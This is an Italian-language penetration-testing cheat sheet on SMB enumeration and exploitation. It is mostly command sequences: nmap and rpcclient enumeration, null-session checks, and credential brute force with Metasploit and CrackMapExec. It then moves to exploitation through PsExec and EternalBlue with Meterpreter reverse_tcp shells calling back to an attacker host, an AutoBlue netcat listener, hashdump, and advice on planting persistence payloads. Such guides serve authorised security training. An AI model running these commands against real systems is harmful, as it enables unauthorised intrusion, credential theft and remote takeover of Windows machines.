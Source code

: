# SMB Enumeration & Exploitation

**SMB (Server Message Block)** è un protocollo di rete utilizzato principalmente in ambienti Windows per la condivisione di file, stampanti e risorse. <br>
Opera sulle porte `445/TCP` (moderno) e `139/TCP` (legacy via NetBIOS). SMB è spesso abilitato di default sulle reti aziendali, rendendolo un obiettivo critico per i penetration tester.

---

## Fase 1 – Scansione e Identificazione del Servizio

La prima fase prevede la scoperta del servizio SMB attivo sul target e la sua versione. Queste informazioni sono fondamentali per identificare vulnerabilità note.

Esegui una scansione delle porte comuni:  
`nmap -p 139,445 <target>`

Per identificare la versione del servizio:  
`nmap -sV -p 445 <target>`

Script NSE utili:
- `nmap --script smb-os-discovery <target>` → sistema operativo, dominio, NetBIOS
- `nmap --script smb-enum-shares <target>` → condivisioni disponibili
- `nmap --script smb-enum-users <target>` → utenti configurati sul dominio

Verifica la versione con:  
- `use auxiliary/scanner/smb/smb_version` (Metasploit)

Alcuni server SMB espongono versioni del servizio con vulnerabilità note.  
Versioni note:
- **SMBv1** → vulnerabile a EternalBlue (MS17-010)
- **Windows XP/2003/7 non patchati** → buffer overflow
- **vsrvsvc** → vulnerabilità nei servizi RPC

---

## Fase 2 – Enumerazione Manuale del Servizio

### smbclient

`smbclient` è un client SMB simile a FTP che consente la connessione e interazione con condivisioni SMB.

- `smbclient -L //<target>/ -N` → elenca le condivisioni accessibili senza credenziali
- `smbclient //<target>/<share> -N` → accede a una condivisione

Comandi utili all'interno della share:
- `ls`, `get`, `put`, `cd`, `mkdir`, `rmdir`

### enum4linux

Strumento versatile basato su `smbclient`, `rpcclient` e `nmblookup`:
- `enum4linux -a <target>` → enumerazione completa (utenti, gruppi, share, policy)

### rpcclient

Consente di connettersi ai servizi RPC tramite SMB:
- `rpcclient -U "" <IP>` → login null
- Comandi utili: `enumdomusers`, `enumdomgroups`, `queryuser <RID>`

---

## Fase 3 – Verifica Null Session

Una null session è una connessione SMB non autenticata che consente di leggere informazioni sensibili.

Per verificare:
- `rpcclient -U "" <target>`
- `smbclient -L //<target>/ -N`

Se la connessione ha successo, è possibile estrarre:
- Nomi utenti
- Share
- Informazioni sul dominio

---

## Fase 4 – Brute Force delle Credenziali

### Con Metasploit

`use auxiliary/scanner/smb/smb_login`  
`set RHOSTS <IP>`  
`set USER_FILE <lista_username.txt>`  
`set PASS_FILE <lista_passwords.txt>`  
`run`

### Con CrackMapExec

**CrackMapExec** è uno strumento versatile che consente di testare credenziali SMB, enumerare utenti, share e verificare vulnerabilità.

- `crackmapexec smb <target> -u <user> -p <password>` → verifica credenziali
- `crackmapexec smb <target> --shares` → elenca le condivisioni
- `crackmapexec smb <target> --users` → enumera utenti

---

## Fase 5 – Exploitation

### Metasploit – Modulo PsExec

Se si dispone di credenziali valide:

`use exploit/windows/smb/psexec`  
`set RHOSTS <IP>`  
`set SMBUser <username>`  
`set SMBPass <password>`  
`set PAYLOAD windows/meterpreter/reverse_tcp`  
`set LHOST <KaliIP>`  
`set LPORT <Port>`  
`run`

Questo modulo consente di ottenere una shell Meterpreter remota. Comandi utili:
- `getuid`
- `shell`
- `search -f <file>`

### Impacket – psexec.py

**psexec.py** fa parte della suite **Impacket** e consente l'esecuzione remota di comandi autenticandosi via SMB:

`psexec.py <username>@<IP> cmd.exe`

Percorso tipico: `/usr/share/doc/python3-impacket/examples/psexec.py`

Dopo aver fornito la password corretta, si ottiene un accesso CMD remoto con i privilegi dell’utente autenticato.

---

### Metasploit – Exploit EternalBlue (MS17-010)

**EternalBlue** è un exploit che sfrutta la vulnerabilità nota come **MS17-010**, una falla critica nel protocollo SMBv1 che consente l'esecuzione di codice remoto con privilegi SYSTEM senza autenticazione.

Verifica con Nmap:  
`nmap -p445 --script smb-vuln-ms17-010 <IP>`

Oppure con Metasploit:  
`use auxiliary/scanner/smb/smb_ms17_010`  
`set RHOSTS <IP>`  
`run`

Sfruttamento:

`use exploit/windows/smb/ms17_010_eternalblue`  
`set RHOSTS <IP>`  
`set SMBPIPE BROWSER`  
`set PAYLOAD windows/x64/meterpreter/reverse_tcp`  
`set LHOST <KaliIP>`  
`set LPORT <Port>`  
`run`

Una volta ottenuta la shell:
- `getuid`
- `getprivs`
- `hashdump`

### Alternativa – AutoBlue-MS17-010

In alternativa a Metasploit, si può usare lo script Python **AutoBlue-MS17-010**:

`cd AutoBlue-MS17-010/shellcode`  
`chmod +x shell_prep.sh`  
`./shell_prep.sh`  
`nc -nvlp 4444`  
`python eternalblue_exploit7.py <IP> shellcode/sc_x64.bin`

---

## Fase 6 – Post Exploitation

Dopo aver ottenuto accesso al sistema:
- Scarica file interessanti (`.txt`, `.conf`, `.xml`, `.ini`, `.bak`)
- Carica payload o script di persistence
- Verifica se le share sono usate da processi attivi o servizi web

Strumenti utili:
- `wget smb://<IP>`
- `curl smb://<IP>`
- `lftp <IP>`

